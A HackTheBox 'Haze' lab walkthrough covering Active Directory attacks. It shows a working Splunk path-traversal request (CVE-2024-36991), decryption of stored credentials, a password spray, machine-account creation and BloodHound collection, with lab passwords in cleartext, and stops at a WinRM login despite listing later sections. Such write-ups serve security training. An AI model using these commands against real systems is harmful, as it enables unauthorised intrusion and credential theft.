




Haze Machine Walkthrough From HackTheBox: Full Active Directory Compromise
A comprehensive guide to Haze Machine From HackTheBox, detailing enumeration, Splunk exploitation, gMSA abuse, AD ACL attacks, and privilege escalation to achieve full domain compromise.
Welcome to a detailed walkthrough of Haze Machine, a challenging Active Directory machine that served as an exceptional learning experience. This write-up provides a comprehensive journey through the enumeration, exploitation, and privilege escalation techniques that led to full domain compromise. The objective of this guide is to illuminate common misconfigurations and complex attack paths within Active Directory environments, offering practical insights for cybersecurity professionals and enthusiasts.
Table of Contents
- 1. Initial Enumeration & Analysis
- 2. Exploiting Splunk Path Traversal (CVE-2024-36991)
- 3. Password Decryption and Initial Domain Access
- 4. Leveraging Group Managed Service Accounts (gMSA)
- 5. Password Spraying for Lateral Movement
- 6. Deep Dive into Privilege Escalation (Mark.Adams & gMSA)
- 7. Escalating Privileges to edward.martin
- BloodHound Visualization: HAZE-IT-BACKUP$ Permissions
- Exploiting WriteOwner for SUPPORT_SERVICES
- Adding Haze-IT-Backup$ to SUPPORT_SERVICES
- Shadow Credentials Attack on edward.martin
- Extracting edward.martin's NTLM Hash
- Pass-the-Hash with edward.martin
- Establishing edward.martin WinRM Shell
- Accessing Splunk Backup Files
- Analyzing splunk.secret Files
- Decrypting Splunk Admin Credentials
- 8. Final Foothold: Reverse Shell via Splunk App
- 9. Privilege Escalation to SYSTEM (SeImpersonatePrivilege)
- 10. Conclusion
Our journey into Haze Machine began, as always, with a thorough reconnaissance phase. Understanding the target's exposed services and potential vulnerabilities is paramount, forming the foundational map for our entire attack.
1. Initial Enumeration & Analysis
Our journey into Haze Machine began, as always, with a thorough reconnaissance phase. Understanding the target's exposed services and potential vulnerabilities is paramount, forming the foundational map for our entire attack.
Nmap Scan
The first step was a comprehensive Nmap scan to identify open ports, running services, and initial operating system guesses. This initial footprint provides crucial clues about the target's role within the network.
$ nmap -p- -sC -sV 10.10.11.61
PORT STATE SERVICE REASON VERSION 53/tcp open domain syn-ack Simple DNS Plus 88/tcp open kerberos-sec syn-ack Microsoft Windows Kerberos (server time: 2025-06-30 01:53:35Z) 135/tcp open msrpc syn-ack Microsoft Windows RPC 139/tcp open netbios-ssn syn-ack Microsoft Windows netbios-ssn 389/tcp open ldap syn-ack Microsoft Windows Active Directory LDAP (Domain: haze.htb0., Site: Default-First-Site-Name) | ssl-cert: Subject: commonName=dc01.haze.htb | Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::, DNS:dc01.haze.htb | Issuer: commonName=haze-DC01-CA/domainComponent=haze | Public Key type: rsa | Public Key bits: 2048 | Signature Algorithm: sha256WithRSAEncryption | Not valid before: 2025-03-05T07:12:20 | Not valid after: 2026-03-05T07:12:20 | MD5: db18:a1f5:986c:1470:b848:35ec:d437:1ca0 | SHA-1: 6cdd:5696:f250:6feb:1a27:abdf:d470:5143:3ab8:5d1f 445/tcp open microsoft-ds? syn-ack 464/tcp open kpasswd5? syn-ack 593/tcp open ncacn_http syn-ack Microsoft Windows RPC over HTTP 1.0 636/tcp open ssl/ldap syn-ack Microsoft Windows Active Directory LDAP (Domain: haze.htb0., Site: Default-First-Site-Name) |_ssl-date: TLS randomness does not represent time | ssl-cert: Subject: commonName=dc01.haze.htb | Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:: , DNS:dc01.haze.htb | Issuer: commonName=haze-DC01-CA/domainComponent=haze | Public Key type: rsa | Public Key bits: 2048 | Signature Algorithm: sha256WithRSAEncryption | Not valid before: 2025-03-05T07:12:20 | Not valid after: 2026-03-05T07:12:20 | MD5: db18:a1f5:986c:1470:b848:35ec:d437:1ca0 | SHA-1: 6cdd:5696:f250:6feb:1a27:abdf:d470:5143:3ab8:5d1f 3268/tcp open ldap syn-ack Microsoft Windows Active Directory LDAP (Domain: haze.htb0., Site: Default-First-Site-Name) |_ssl-date: TLS randomness does not represent time | ssl-cert: Subject: commonName=dc01.haze.htb | Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:: , DNS:dc01.haze.htb | Issuer: commonName=haze-DC01-CA/domainComponent=haze | Public Key type: rsa | Public Key bits: 2048 | Signature Algorithm: sha256WithRSAEncryption | Not valid before: 2025-03-05T07:12:20 | Not valid after: 2026-03-05T07:12:20 | MD5: db18:a1f5:986c:1470:b848:35ec:d437:1ca0 | SHA-1: 6cdd:5696:f250:6feb:1a27:abdf:d470:5143:3ab8:5d1f 3269/tcp open ssl/ldap syn-ack Microsoft Windows Active Directory LDAP (Domain: haze.htb0., Site: Default-First-Site-Name) | ssl-cert: Subject: commonName=dc01.haze.htb | Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:: , DNS:dc01.haze.htb | Issuer: commonName=haze-DC01-CA/domainComponent=haze | Public Key type: rsa | Public Key bits: 2048 | Signature Algorithm: sha256WithRSAEncryption | Not valid before: 2025-03-05T07:12:20 | Not valid after: 2026-03-05T07:12:20 | MD5: db18:a1f5:986c:1470:b848:35ec:d437:1ca0 | SHA-1: 6cdd:5696:f250:6feb:1a27:abdf:d470:5143:3ab8:5d1f 8000/tcp open http syn-ack Splunkd httpd |_http-favicon: Unknown favicon MD5: E60C968E8FF3CC2F4FB869588E83AFC6 |_http-server-header: Splunkd | http-title: Site doesnt have a title (text/html; charset=UTF-8). |_Requested resource was http://10.10.11.61:8000/en-US/account/login?return_to=%2Fen-US%2F | http-methods: |_ Supported Methods: GET HEAD POST OPTIONS | http-robots.txt: 1 disallowed entry |_/ 8088/tcp open ssl/http syn-ack Splunkd httpd | ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser | Issuer: commonName=SplunkCommonCA/organizationName=Splunk/stateOrProvinceName=CA/countryName=US/emailAddress=support@splunk.com/local ityName=San Francisco | Public Key type: rsa | Public Key bits: 2048 | Signature Algorithm: sha256WithRSAEncryption | Not valid before: 2025-03-05T07:29:08 | Not valid after: 2028-03-04T07:29:08 | MD5: 82e5:ba5a:c723:2f49:6f67:395b:5e64:ed9b | SHA-1: e859:76a6:03da:feef:c1ab:9acf:ecc7:fd75:f1e5:1ab2 8089/tcp open ssl/http syn-ack Splunkd httpd | ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser | Issuer: commonName=SplunkCommonCA/organizationName=Splunk/stateOrProvinceName=CA/countryName=US/emailAddress=support@splunk.com/local ityName=San Francisco | Public Key type: rsa | Public Key bits: 2048 | Signature Algorithm: sha256WithRSAEncryption | Not valid before: 2025-03-05T07:29:08 | Not valid after: 2028-03-04T07:29:08 | MD5: 82e5:ba5a:c723:2f49:6f67:395b:5e64:ed9b | SHA-1: e859:76a6:03da:feef:c1ab:9acf:ecc7:fd75:f1e5:1ab2 Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows Host script results: | smb2-time: | date: 2025-06-30T01:54:29 |_ start_date: N/A |_clock-skew: 7h59m43s | smb2-security-mode: | 3:1:1: |_ Message signing enabled and required | p2p-conficker: | Checking for Conficker.C or higher... | Check 1 (port 46282/tcp): CLEAN (Couldn't connect) | Check 2 (port 43344/tcp): CLEAN (Couldn't connect) | Check 3 (port 26877/udp): CLEAN (Failed to receive data) | Check 4 (port 16354/udp): CLEAN (Timeout)
Initial Findings and Analysis
Based on the Nmap scan results, we quickly identified that DC01 is clearly a Windows domain controller, actively managing an Active Directory environment. This immediately set our expectations for common AD-related vulnerabilities and attack paths.
Here's a summary of our key findings from this initial scan:
- System Information
- Hostname: DC01
- Domain: haze.htb
- Operating System: Microsoft Windows
- Open Ports and Services
- Domain Controller Services: The machine is running standard Active Directory services essential for a domain controller. This includes DNS on port 53, Kerberos on port 88, and LDAP services on 389/636/3268/3269. These are immediate points of interest for AD enumeration.
- File Sharing: SMB/CIFS services are active on ports 139/445, indicating potential for credential testing and network share enumeration.
- Splunk Installation: Intriguingly, Splunk services were detected on ports 8000 (HTTP web interface), 8088, and 8089 (HTTPS). This unexpected finding immediately shifted our focus to potential web application vulnerabilities.
Vulnerabilities Identified
During the initial enumeration, a critical vulnerability within the Splunk installation was pinpointed:
- Splunk Path Traversal (CVE-2024-36991): The version of Splunk running on the target was found to be vulnerable to a path traversal flaw. This type of vulnerability allows an attacker to read arbitrary files on the system, potentially exposing sensitive configuration files or credentials.
- Exposed Credentials: The immediate goal with the path traversal was to obtain configuration files. This led us to authentication.conf, which contained LDAP authentication configurations, including what appeared to be encrypted credentials.
2. Exploiting Splunk Path Traversal (CVE-2024-36991)
The Splunk path traversal vulnerability presented an immediate and high-impact entry point. Our objective was to leverage this to read sensitive files that could provide authentication details or further insights into the system.
Exploit
localhost@localhost-PC:~/ctf/hTB/labs/haze$ curl -s "http://10.10.11.61:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../C:../C:../C:../C:../C:../C:/Program%20Files/Splunk/etc/system/local/authentication.conf"
[splunk_auth] minPasswordLength = 8 minPasswordUppercase = 0 minPasswordLowercase = 0 minPasswordSpecial = 0 minPasswordDigit = 0 [Haze LDAP Auth] SSLEnabled = 0 anonymous_referrals = 1 bindDN = CN=Paul Taylor,CN=Users,DC=haze,DC=htb bindDNpassword = $7$ndnYiCPhf4lQgPhPu7Yz1pvGm66Nk0PpYcLN+qt1qyojg4QU+hKteemWQGUuTKDVlWbO8pY= charset = utf8 emailAttribute = mail enableRangeRetrieval = 0 groupBaseDN = CN=Splunk_LDAP_Auth,CN=Users,DC=haze,DC=htb groupMappingAttribute = dn groupMemberAttribute = member groupNameAttribute = cn host = dc01.haze.htb nestedGroups = 0 network_timeout = 20 pagelimit = -1 port = 389 realNameAttribute = cn sizelimit = 1000 timelimit = 15 userBaseDN = CN=Users,DC=haze,DC=htb userNameAttribute = samaccountname [authentication] authSettings = Haze LDAP Auth authType = LDAP
Extracted Information
Successfully exploiting the path traversal vulnerability yielded critical information, setting the stage for the next phase of the attack:
- LDAP Credentials: We successfully extracted the authentication.conf file, which contained a bindDN for user "Paul Taylor" and an encrypted password. This was a significant finding, as LDAP credentials are often reused or lead to domain service accounts.
- LDAP Configuration: The configuration explicitly stated SSLEnabled = 0, meaning the LDAP server was configured without SSL. This is a crucial detail for subsequent LDAP interactions, indicating that communications might be unencrypted.
- Domain Structure: The baseDN was identified as DC=haze,DC=htb, with user accounts located in CN=Users,DC=haze,DC=htb. This provided us with the foundational understanding of the domain's structure.
- Splunk Secret Key: Crucially, we were also able to extract the splunk.secret file. This file is vital as it holds the key used by Splunk to encrypt and decrypt sensitive values within its configuration files, including passwords.
Attack Path
Based on the wealth of information gathered from the Splunk exploit, a clear and viable attack path emerged:
- Decrypt the LDAP bindDN password: Use the extracted splunk.secret file to decrypt Paul Taylor's encrypted LDAP password.
- Authenticate to Domain Services: Leverage Paul Taylor's newly decrypted credentials to attempt authentication against various domain services (SMB, LDAP, Kerberos).
- Further Enumeration: With authenticated access, perform more in-depth enumeration of the Active Directory environment, searching for privilege escalation paths.
3. Password Decryption and Initial Domain Access
With the splunk.secret file in hand and an encrypted password, the next logical step was decryption. Successfully obtaining cleartext credentials would grant us our initial foothold in the domain.
Splunk Password Decryption
Using specialized tools designed for Splunk password decryption, combined with the splunk.secret file, we successfully uncovered the cleartext password for the LDAP bind account.
localhost@localhost-PC:~/ctf/hTB/labs/haze$ splunksecrets splunk-legacy-decrypt --splunk-secret splunk.secret Ciphertext: $7$ndnYiCPhf4lQgPhPu7Yz1pvGm66Nk0PpYcLN+qt1qyojg4QU+hKteemWQGUuTKDVlWbO8pY= Ld@p_Auth_Sp1unk@2k24
Decrypted Password: Ld@p_Auth_Sp1unk@2k24
The decrypted password was Ld@p_Auth_Sp1unk@2k24. This was a huge breakthrough!
Username Enumeration & Authentication Testing
With the password, but an uncertain username format (e.g., paul.taylor, ptaylor, etc.), we employed username-anarchy to generate variations for "Paul Taylor."
localhost@localhost-PC:~/ctf/hTB/labs/haze/username-anarchy-0.6$ ./username-anarchy Paul Taylor
paul paultaylor paul.taylor paultayl pault p.taylor ptaylor tpaul t.paul taylorp taylor taylor.p taylor.paul pt
We then systematically tested these different username formats against domain services using the decrypted password. This confirmed that paul.taylor was the correct username format.
localhost@localhost-PC:~/ctf/hTB/labs/haze$ nxc smb 10.10.11.61 -u users.txt -p 'Ld@p_Auth_Sp1unk@2k24'
SMB 10.10.11.61 445 DC01 [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True ) (SMBv1:False) SMB 10.10.11.61 445 DC01 [-] haze.htb\paul:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE SMB 10.10.11.61 445 DC01 [-] haze.htb\paultaylor:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE SMB 10.10.11.61 445 DC01 [+] haze.htb\paul.taylor:Ld@p_Auth_Sp1unk@2k24
Domain Users Enumeration using --rid-brute
With paul.taylor's authenticated access, we attempted to enumerate domain users using RID bruteforcing. However, it quickly became apparent that paul.taylor had restricted privileges, as we could only enumerate the user's own account. This indicated a low-privileged user and a need for further privilege escalation or data collection techniques.
localhost@localhost-PC:~/ctf/hTB/labs/haze$ nxc smb 10.10.11.61 -u paul.taylor -p 'Ld@p_Auth_Sp1unk@2k24' --rid-brute
SMB 10.10.11.61 445 DC01 [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True ) (SMBv1:False) SMB 10.10.11.61 445 DC01 [+] haze.htb\paul.taylor:Ld@p_Auth_Sp1unk@2k24 SMB 10.10.11.61 445 DC01 498: HAZE\Enterprise Read-only Domain Controllers (SidTypeGroup) SMB 10.10.11.61 445 DC01 500: HAZE\Administrator (SidTypeUser) SMB 10.10.11.61 445 DC01 501: HAZE\Guest (SidTypeUser) SMB 10.10.11.61 445 DC01 502: HAZE\krbtgt (SidTypeUser) SMB 10.10.11.61 445 DC01 512: HAZE\Domain Admins (SidTypeGroup) SMB 10.10.11.61 445 DC01 513: HAZE\Domain Users (SidTypeGroup) SMB 10.10.11.61 445 DC01 514: HAZE\Domain Guests (SidTypeGroup) SMB 10.10.11.61 445 DC01 515: HAZE\Domain Computers (SidTypeGroup) SMB 10.10.11.61 445 DC01 516: HAZE\Domain Controllers (SidTypeGroup) SMB 10.10.11.61 445 DC01 517: HAZE\Cert Publishers (SidTypeAlias) SMB 10.10.11.61 445 DC01 518: HAZE\Schema Admins (SidTypeGroup) SMB 10.10.11.61 445 DC01 519: HAZE\Enterprise Admins (SidTypeGroup) SMB 10.10.11.61 445 DC01 520: HAZE\Group Policy Creator Owners (SidTypeGroup) SMB 10.10.11.61 445 DC01 521: HAZE\Read-only Domain Controllers (SidTypeGroup) SMB 10.10.11.61 445 DC01 522: HAZE\Cloneable Domain Controllers (SidTypeGroup) SMB 10.10.11.61 445 DC01 525: HAZE\Protected Users (SidTypeGroup) SMB 10.10.11.61 445 DC01 526: HAZE\Key Admins (SidTypeGroup) SMB 10.10.11.61 445 DC01 527: HAZE\Enterprise Key Admins (SidTypeGroup) SMB 10.10.11.61 445 DC01 553: HAZE\RAS and IAS Servers (SidTypeAlias) SMB 10.10.11.61 445 DC01 571: HAZE\Allowed RODC Password Replication Group (SidTypeAlias) SMB 10.10.11.61 445 DC01 572: HAZE\Denied RODC Password Replication Group (SidTypeAlias) SMB 10.10.11.61 445 DC01 1000: HAZE\DC01$ (SidTypeUser) SMB 10.10.11.61 445 DC01 1101: HAZE\DnsAdmins (SidTypeAlias) SMB 10.10.11.61 445 DC01 1102: HAZE\DnsUpdateProxy (SidTypeGroup) SMB 10.10.11.61 445 DC01 1103: HAZE\paul.taylor (SidTypeUser) SMB 10.10.11.61 445 DC01 1104: HAZE\mark.adams (SidTypeUser) SMB 10.10.11.61 445 DC01 1105: HAZE\edward.martin (SidTypeUser) SMB 10.10.11.61 445 DC01 1106: HAZE\alexander.green (SidTypeUser) SMB 10.10.11.61 445 DC01 1107: HAZE\gMSA_Managers (SidTypeGroup) SMB 10.10.11.61 445 DC01 1108: HAZE\Splunk_Admins (SidTypeGroup) SMB 10.10.11.61 445 DC01 1109: HAZE\Backup_Reviewers (SidTypeGroup) SMB 10.10.11.61 445 DC01 1110: HAZE\Splunk_LDAP_Auth (SidTypeGroup) SMB 10.10.11.61 445 DC01 1111: HAZE\Haze-IT-Backup$ (SidTypeUser) SMB 10.10.11.61 445 DC01 1112: HAZE\Support_Services (SidTypeGroup)
Despite this limitation, the RID bruteforcing did provide some initial domain information, revealing various domain users and groups. Of particular interest was the highlighted "gMSA_Managers" group, which strongly suggested potential access to Group Managed Service Accounts – a common and often lucrative privilege escalation vector in Active Directory environments.
4. Leveraging Group Managed Service Accounts (gMSA)
The discovery of the "gMSA_Managers" group was a significant pivot point. Members of this group possess the ability to retrieve passwords for Group Managed Service Accounts (gMSAs), presenting a critical privilege escalation opportunity.
Understanding gMSA Exploitation
Group Managed Service Accounts are specialized service accounts whose passwords are automatically managed by the domain controllers. They're designed for secure service principals without manual password rotation. However, members of the gMSA_Managers group can extract the password blobs for these accounts, effectively compromising them. This is a classic example of privilege escalation through Active Directory group membership.
Machine Account Creation (Privilege Escalation for BloodHound)
To effectively map the entire AD environment and identify detailed attack paths, BloodHound is indispensable. However, paul.taylor's low privileges severely limited the data we could collect. To overcome this, we leveraged a lesser-known feature: low-privileged users' ability to create a limited number of new computer/machine accounts within the domain. This would grant us slightly more privileged access, sufficient for BloodHound data collection.
localhost@localhost-PC:~/ctf/hTB/labs/haze$ addcomputer.py -computer-name 'localhost$' -computer-pass 'StrongPassword!' -dc-host haze.htb -domain-netbios haze 'haze/paul.taylor:Ld@p_Auth_Sp1unk@2k24'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
[*] Successfully added machine account localhost$ with password StrongPassword!.
We successfully added a new computer account, localhost$, to the haze.htb domain using paul.taylor's compromised credentials.
localhost@localhost-PC:~/ctf/hTB/labs/haze$ nxc smb 10.10.11.61 -u 'localhost$' -p 'StrongPassword!' --users
SMB 10.10.11.61 445 DC01 [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True ) (SMBv1:False) SMB 10.10.11.61 445 DC01 [+] haze.htb\localhost$:StrongPassword! SMB 10.10.11.61 445 DC01 -Username- -Last PW Set- -BadPW- -Description- SMB 10.10.11.61 445 DC01 Administrator 2025-03-20 21:34:49 0 Built-in account for admi nistering the computer/domain SMB 10.10.11.61 445 DC01 Guest0 Built-in account for gues t access to the computer/domain SMB 10.10.11.61 445 DC01 krbtgt 2025-03-05 07:09:15 0 Key Distribution Center S ervice Account SMB 10.10.11.61 445 DC01 paul.taylor 2025-07-01 00:18:07 0 SMB 10.10.11.61 445 DC01 mark.adams 2025-07-01 00:18:07 0 SMB 10.10.11.61 445 DC01 edward.martin 2025-07-01 00:18:07 0 SMB 10.10.11.61 445 DC01 alexander.green 2025-07-01 00:18:07 0 SMB 10.10.11.61 445 DC01 [*] Enumerated 7 local users: HAZE
We verified that the newly created machine account localhost$ had basic domain access and could enumerate domain users, which confirmed its utility for BloodHound.
Kerberos Ticket Acquisition
To enable BloodHound's comprehensive data collection using the new machine account, we needed a Kerberos Ticket Granting Ticket (TGT). We used nxc to log into the domain controller DC01 (10.10.11.61) with localhost$ and successfully generated a Kerberos ticket.
localhost@localhost-PC:~/ctf/hTB/labs/haze$ nxc smb 10.10.11.61 -u 'localhost$' -p 'StrongPassword!' --generate-krb5-file haze.htb
SMB 10.10.11.61 445 DC01 [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True ) (SMBv1:False) SMB 10.10.11.61 445 DC01 [+] haze.htb\localhost$:StrongPassword!
Next, we viewed the haze.htb Kerberos configuration file (krb5.conf). This file explicitly defines dc01.haze.htb as the Key Distribution Center (KDC) and admin server for the HAZE.HTB realm, overriding DNS lookups to ensure proper Kerberos authentication.
localhost@localhost-PC:~/ctf/hTB/labs/haze$ cat haze.htb
[libdefaults]
dns_lookup_kdc = false
dns_lookup_realm = false
default_realm = HAZE.HTB
[realms]
HAZE.HTB = {
kdc = dc01.haze.htb
admin_server = dc01.haze.htb
default_domain = haze.htb
}
[domain_realm]
.haze.htb = HAZE.HTB
haze.htb = HAZE.HTB
Finally, we used the Impacket script getTGT.py to explicitly request a Ticket Granting Ticket (TGT) for the haze.htb/localhost$ machine account, using its password (StrongPassword!). The script successfully obtained the TGT and saved it to localhost$.ccache. This TGT is crucial for subsequent Kerberos-based authentication and attacks, including running BloodHound-Python.
localhost@localhost-PC:~/ctf/hTB/labs/haze$ getTGT.py 'haze.htb/localhost$:StrongPassword!'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies [*] Saving ticket in localhost$.ccache
BloodHound Data Collection
With the localhost$.ccache in hand, we executed bloodhound-python to collect comprehensive information from the haze.htb Active Directory domain. By setting KRB5CCNAME=localhost$.ccache and using the -k (Kerberos) flag, we instructed bloodhound-python to use the previously obtained TGT for authentication, bypassing the need for a password. The -c all flag ensured comprehensive data collection, including computers, users, groups, GPOs, and OUs from the domain controller dc01.haze.htb. This data is crucial for visualizing complex attack paths within BloodHound.
localhost@localhost-PC:~/ctf/hTB/labs/haze$ KRB5CCNAME=localhost\$.ccache bloodhound-python -k -c all -d haze.htb -dc dc01.haze.htb -u localhost$
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3) Password: WARNING: Could not find a global catalog server, assuming the primary DC has this role If this gives errors, either specify a hostname with -gc or disable gc resolution with --disable-autogc INFO: Using TGT from cache INFO: Found TGT with correct principal in ccache file. INFO: Connecting to LDAP server: dc01.haze.htb INFO: Found 1 domains INFO: Found 1 domains in the forest INFO: Found 2 computers INFO: Connecting to LDAP server: dc01.haze.htb INFO: Found 9 users INFO: Found 57 groups INFO: Found 2 gpos INFO: Found 2 ous INFO: Found 20 containers INFO: Found 0 trusts INFO: Starting computer enumeration with 10 workers INFO: Querying computer: INFO: Querying computer: dc01.haze.htb
5. Password Spraying for Lateral Movement
Having gathered initial credentials, a common next step in Active Directory engagements is to perform a password spray attack. This leverages a single, likely password against a large list of usernames, hoping for widespread reuse.
Performing the Password Spray
We executed a password spray attack against the haze.htb domain controller (DC01) using nxc smb. We provided a list of usernames extracted from our earlier enumeration (all_users.txt) and attempted to authenticate each one with the single password Ld@p_Auth_Sp1unk@2k24 (the one we decrypted earlier).
localhost@localhost-PC:~/ctf/hTB/labs/haze$ nxc smb 10.10.11.61 -u all_users.txt -p 'Ld@p_Auth_Sp1unk@2k24' --continue-on-success
SMB 10.10.11.61 445 DC01 [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:False) SMB 10.10.11.61 445 DC01 [-] haze.htb\Administrator:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE SMB 10.10.11.61 445 DC01 [-] haze.htb\Guest:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE SMB 10.10.11.61 445 DC01 [-] haze.htb\krbtgt:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE SMB 10.10.11.61 445 DC01 [-] haze.htb\DC01$:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE SMB 10.10.11.61 445 DC01 [+] haze.htb\paul.taylor:Ld@p_Auth_Sp1unk@2k24 SMB 10.10.11.61 445 DC01 [+] haze.htb\mark.adams:Ld@p_Auth_Sp1unk@2k24 SMB 10.10.11.61 445 DC01 [-] haze.htb\edward.martin:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE SMB 10.10.11.61 445 DC01 [-] haze.htb\alexander.green:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE SMB 10.10.11.61 445 DC01 [-] haze.htb\Haze-IT-Backup$:Ld@p_Auth_Sp1unk@2k24 STATUS_LOGON_FAILURE
The output revealed that while many attempts resulted in STATUS_LOGON_FAILURE, we successfully authenticated as paul.taylor (which we already knew) and, crucially, mark.adams using this password! This was a significant finding, providing us with a new, potentially higher-privileged user.
Confirming WinRM Access
To assess the immediate utility of mark.adams's credentials, we attempted to authenticate via SMB and WinRM. We first confirmed the validity of mark.adams's credentials by performing an SMB login to DC01 using nxc smb, which was successful. Immediately after, we attempted a WinRM login to the same host using nxc winrm with mark.adams's credentials. This also succeeded, indicating that mark.adams has authenticated access to both SMB and WinRM services on the domain controller. The (Pwn3d!) message signified successful privileged access.
